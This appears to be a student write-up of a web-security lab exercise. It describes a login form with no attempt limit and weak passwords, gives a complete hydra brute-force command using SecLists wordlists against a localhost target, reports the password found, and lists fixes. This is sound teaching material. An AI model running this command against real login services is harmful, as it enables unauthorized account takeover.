 # Weak Credentials + Improper Restriction of Login Attempts

## 📖 Vulnerability Explanation
The application does not limit the authentication attempts, making a brute force attack possible. In addition to this, there is no strong password policy, facilitating password attacks.

## ⚙️ Exploitation Process
We will use ```hydra``` to perform the brute force attack and ```Seclists``` for the wordlists arguments. 

- Run hydra with the correct wordlists path:

```
hydra -L /sgoinfre/students/apena-ba/cybersecurity/SecLists/Usernames/top-usernames-shortlist.txt -P /sgoinfre/students/apena-ba/cybersecurity/SecLists/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt 127.0.0.1 -s 9090 http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:WrongAnswer.gif'
```

In order to use the http-get-form module, we must define a format string containing three parts:
1. Route to the login page
2. Parameters must contain at least one format string ```^USER^``` or ```^PASS^```
3. Failure string present in the response to recognise valid attempts

> It looks like any username works for the password _shadow_

## 🧰 Additional Resources
Hydra is a brute force attack tool used to test password security on several protocols and services. It uses wordlists as parameters and can be used for both password bruteforcing and password spraying.

- https://github.com/vanhauser-thc/thc-hydra

The wordlists we used for the brute force attack are part of the SecLists project, which is a recognised repository with multiple wordlists for various purposes.

- https://github.com/danielmiessler/SecLists.git

## 🔧 Fix
To protect the app authentication, two fixes should be implemented:

1. **Strong password policy**: Forcing users to set strong passwords limits the risk of being compromised by a malicious actor
2. **Limit login attempts**: To prevent brute force attacks, the app should restrict the amount of attempts on each account

## ☝️🤓 Advanced explanation
In order to strenghen the security posture of the application, we could use IDS/IPS to detect and protect against brute force attacks in real time. Furthermore, these systems log suspicious activities reinforcing the security on a network level.